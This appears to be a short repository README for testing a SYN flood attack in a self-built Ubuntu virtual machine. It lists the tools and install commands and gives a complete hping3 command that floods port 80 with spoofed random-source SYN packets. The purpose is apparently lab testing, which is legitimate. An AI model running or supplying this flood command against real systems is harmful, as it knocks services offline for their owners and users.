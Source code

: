 #TEST FOR SYN FLOOD ATTACK

##Requirements

SSH Server
Hping3
Synflood
Ubuntu virtual machine

##GUIDE

Create a container on any server where you have permissions.

In this container, it creates a virtual machine of Ubuntu in current versions.

Access this VM using the command user@ip_direction (you must create a user other than root and the IP address must be that of the virtual machine).

You can use the login.php file to check that you have a connection to the IP address of the virtual machine. To do this you must have apache2 php installed on the machine.

In the virtual machine install SSH, Hping3, and SYNFlood

SSH -> sudo apt-get install OpenSSH-server
Hping3 -> sudo apt-get install hping3
Synflood -> sudo apt-get install synflood

Finally, with all the tools installed, use the following command to execute the attack

sudo hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source @ip_direction_objetive

Note: You must force the virtual machine to close because this attack prevents you from using the virtual machine
